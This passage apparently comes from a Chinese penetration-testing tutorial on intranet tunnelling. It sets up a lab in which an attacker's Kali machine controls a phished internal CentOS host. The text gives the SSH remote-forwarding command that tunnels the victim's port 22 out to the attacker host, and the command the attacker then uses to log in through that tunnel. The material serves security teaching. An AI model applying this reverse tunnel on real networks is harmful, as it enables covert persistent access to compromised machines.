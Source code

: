 ![image-20241019162847415](内网隧道代理技术/image-20241019162847415.png)	

```
远程端口转发的工作机制：
远程服务器（例如，192.168.1.50）会监听指定的端口（比如 3333），并将收到的流量通过 SSH 隧道转发到本地主机（你发起 SSH 命令的那台机器）。本地主机（你执行 SSH 命令的那台机器）会接收到这部分流量，然后再将它转发到目标的“其他主机”。

ssh反向访问到某个机器上，那么这个机器必须支持是ssh22端口的协议，否则ssh反向转发会失败。
远程转发（反向访问A）
之所以要使用反向访问，原因在于机器A是来自公网，不能访问到控制的机器B(内网)，
实验场景2:
现在有如下的网络，电脑A是攻击机器(公网)，不可以直接访问电脑B(内网),但是机器B可以出网，由于钓鱼被电脑A控制住了
电脑A攻击机(192.168.15.141),kali机器
电脑B(192.168.15.100和192.168.50.100)，Centos7
```

```
这里直接使用ssh来代替shell来控制机器B。
SSH创建一个远程端口转发，将远程服务器 192.168.15.141 上的端口 3336 的流量，通过 SSH 隧道转发到本地机器 192.168.15.100 的 22 端口
ssh -CfNg -R 3336:192.168.15.100:22 192.168.15.141
```

![image-20241019185457297](内网隧道代理技术/image-20241019185457297.png)		

```
于是即可远程连接
ssh root@127.0.0.1 -p 3336
```
